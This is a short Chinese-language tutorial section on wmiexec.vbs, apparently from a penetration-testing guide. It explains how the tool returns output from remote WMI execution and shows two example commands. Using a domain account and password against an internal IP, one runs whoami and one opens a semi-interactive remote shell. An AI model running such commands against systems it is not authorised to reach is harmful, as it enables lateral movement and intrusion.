 ```yaml
---
title: "4.2.2.3 wmiexec.vbs"
id: zhfly3425
---
```


#### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell

![image](../img/c2e4831599978061f540757f0c2dc900.png)

```
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami 
```

![image](../img/32b69960a38f63b9dc4c245f3164c3df.png)

```
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123 
```

![image](../img/77bfc250325324e44c9437273065c3ca.png)